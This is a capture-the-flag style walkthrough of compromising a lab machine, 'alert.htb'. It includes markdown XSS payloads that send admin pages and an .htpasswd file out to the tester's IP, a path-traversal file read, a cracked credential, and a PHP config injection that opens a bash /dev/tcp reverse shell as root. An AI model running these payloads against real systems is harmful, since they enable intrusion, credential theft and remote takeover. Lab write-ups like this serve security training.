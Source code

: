 1, Recon
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
12227/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we check it from browser, we found the index page is that 
`http://alert.htb/index.php?page=alert`
![](images/Pasted%20image%2020241125075754.png)
In this page, we found a path to view markdown file.
`http://alert.htb/visualizer.php`

After check the subdomains of `alert.htb`, I found another sub-domain to need the authorization 
![](images/Pasted%20image%2020241125081208.png)

Firstly, we want to check the XSS of markdown.
Because this is a page which transfer the markdown file into html, so that means we can also apply the js into the markdown file.
So the payload would be:
```
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.16.10/?data=" + encodeURIComponent(data));
})
.catch(error => console.error("Error fetching the messages:", error));
</script>
```

firstly, catch the messages of admin, and convert to response to text and send to our local machine.
![](images/Pasted%20image%2020241125092808.png)
By using Share Markdown and send it to the Backstage from `Contact us`

Then we get 
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>    </nav>
    <div class="container">
        <h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```
In this place, We can find the LFI vulner here 
`<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>`

So let's try to exploit it and find the valid files:
`http://alert.htb/messages.php?file=../../../../../../../etc/apache2/sites-enabled/000-default.conf`
This file contains the information of this web service.
```
<pre><VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>

```

`AuthUserFile /var/www/statistics.alert.htb/.htpasswd`
This would be our target.
payload: 
```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.16.10/?data=" + encodeURIComponent(data));
})
.catch(error => console.error("Error fetching the messages:", error));
</script>
```
Then we get the credit.
```
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>
```
We need to crack this hash and then we can check the ssh or just login to `statistics.alert.htb`
Finally, we get `albert:manchesterunited`

2, shell as root
firstly, we would check what can the user do as root
```
sudo -l
[sudo] password for albert: 
Sorry, user albert may not run sudo on alert.
```

Then I would check the netstate
```
netstat -ntlp

Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               
```

By forwarding this port to our localhost, we found this page
![](images/Pasted%20image%2020241125095151.png)
We found this website monitor, I think this would be run by root.
By using pspy64 to check our guess
```
CMD: UID=0    PID=999    | /usr/bin/php -S 127.0.0.1:8080 -t /opt/website-monitor
CMD: UID=0    PID=1007   | /bin/bash /root/scripts/xss_bot.sh 
CMD: UID=0    PID=1006   | /bin/bash /root/scripts/php_bot.sh 
CMD: UID=0    PID=1005   | /bin/sh -c /root/scripts/xss_bot.sh 
CMD: UID=0    PID=1004   | /bin/sh -c /root/scripts/php_bot.sh
```

It is true, so we can check its version and exploits to help us Privilege Escalation.

By checking id
```
id
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```
and in the directory of website-monitor, we find we have the chance to change config
`drwxrwxr-x 2 root management  4096 Oct 12 04:17 config`
```
cat configuration.php 
<?php
define('PATH', '/opt/website-monitor');
?>
```
Then we just need to add the reverse shell into this file, and reload the url
`http://localhost:8080`
```
<?php
define('PATH', '/opt/website-monitor');
exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.16.10/443 0>&1"');
?>
```
Finally, we get the reverse shell.
